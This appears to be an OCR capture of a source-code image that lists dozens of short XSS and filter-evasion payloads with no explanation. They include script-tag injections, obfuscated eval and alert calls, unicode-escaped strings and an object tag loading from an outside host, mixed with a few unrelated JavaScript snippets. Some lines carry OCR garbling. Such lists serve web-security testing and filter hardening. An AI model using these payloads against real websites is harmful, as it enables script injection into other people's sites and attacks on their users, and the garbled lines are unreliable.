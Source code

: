 ""@cc_on/alert(1)
/**\u002falert(1)
Simple version...
\u002f**/alert(1)
x=[].x=[].y=alert
0[\u55FD](\u55FC)
this["alert"](7);
\u50002=/eva/[-1]
'>//\\,<'>">">"*"
<;SCRIPT>;a=/XSS/
";alert('XSS');//
\";alert('XSS');//
'';!--"<XSS>=&{()}
&#47&#46source&#41
//</script><?='µ';
0/eval('alert(1)')
alert(1)[alert(2)]
window['alert'](1)
'>//\\,<'>">">"*"4
<;HTML xmlns:xss>;
x[{}].valueOf()(1) 
[1,2].reduce(alert)
false == '0'//true 
x[{}]=!/\\/?{}:eval
instanceof alert(1)
x='aler\u200ft(1)' 
eval(RegExp['$&']) 
o2.test = 'hello2';
alert((3).clone());
var array = [1,2,3]
alert(array.pop(3))
window["alert"](1);
alert(bs("window"))
<;? echo(';<;SCR)';;
x[/\\/].valueOf()(1)
x[{}]=!/\\/?[]:alert
RegExp(/a/,alert(1))
!alert(2)in!alert(1)
new Date in alert(1)
a=__proto__['alert']
\u000Aalert\u000A(1)
Script('/'.concat(/\
0..eval('alert(1)') 
\";;alert(';XSS';);//
e=<a>ev<b></b>al</a> 
alert(1)/@works_in_ff
alert(1)-alert(/two/)
o1 = {test:'hello1'};
alert(clone.clone());
function Anything(){}
(i[-5]['eval'](i))(1)
this._=window.a=null;
<SCRIPT>alert("Test")
(1<1>alert(false)<1>1)
<SCRIPT>alert("Test");
<object data=//h4k.in>
alert("test".clone());
(1<<1>>alert(2)<<1>>1)
> delete ,delete a(1) 
> delete~/delete a(1) 
['alert(1)'].map(eval)
@cc_on@_win32/alert(1) 
if(false);else~alert(1)
false == 'false'//false